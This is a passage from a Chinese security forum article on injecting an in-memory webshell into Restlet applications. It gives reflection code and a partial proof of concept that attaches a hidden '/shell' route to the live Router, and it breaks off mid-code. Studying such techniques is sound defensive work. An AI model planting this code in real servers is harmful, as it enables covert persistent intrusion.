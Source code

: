![image-20240830155435329.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-7452dcb982325cbb9a16476fb8bfe0fa1fc02ecf.png)

Router内存马就类似于Spring下的Controller类型的内存马，主要通过Router.attach()来实现添加一个URI映射到资源

关键是需要获取到环境上下文（Context）中router对象，再通过该对象来显式添加一个URI映射。通过官方文档知道使用`Context ctx = Context.getCurrent()`可以获取到当前上下文实例

下断点调试程序，通过getCurrent()得到上下文实例，最终发现所需要的Router对象保存在inboundRoot属性中

![image-20240831111559445.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-363de66d6859548ae9dc512217e76e6768efcc0f.png)

利用反射获取到Router对象

```java
Context ctx = Context.getCurrent();
Object obj = ctx.getClientDispatcher();

Field field = obj.getClass().getDeclaredField("childContext");
field.setAccessible(true);
obj = field.get(obj);

field = obj.getClass().getDeclaredField("child");
field.setAccessible(true);
obj = field.get(obj);

field = obj.getClass().getSuperclass().getDeclaredField("inboundRoot");
field.setAccessible(true);
obj = field.get(obj);
```

![image-20240831112102972.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-8b694447f9d900d215d01522b9c2908ff0a4179d.png)

得到Router对象之后，调用该对象里的attach()方法添加一个URI映射即可

```java
// 完整POC
import org.restlet.Application;
import org.restlet.Context;
import org.restlet.Request;
import org.restlet.resource.Get;
import org.restlet.resource.ServerResource;
import org.restlet.routing.Router;

import java.lang.reflect.Field;

public class MemoryApplication extends Application {
    static {
        try {
            Context ctx = Context.getCurrent();
            Object obj = ctx.getClientDispatcher();

            Field field = obj.getClass().getDeclaredField("childContext");
            field.setAccessible(true);
            obj = field.get(obj);

            field = obj.getClass().getDeclaredField("child");
            field.setAccessible(true);
            obj = field.get(obj);

            field = obj.getClass().getSuperclass().getDeclaredField("inboundRoot");
            field.setAccessible(true);
            obj = field.get(obj);

            Router router = (Router) obj;
            router.attach("/shell", MemoryShell.class);
        } catch (Exception e) {
```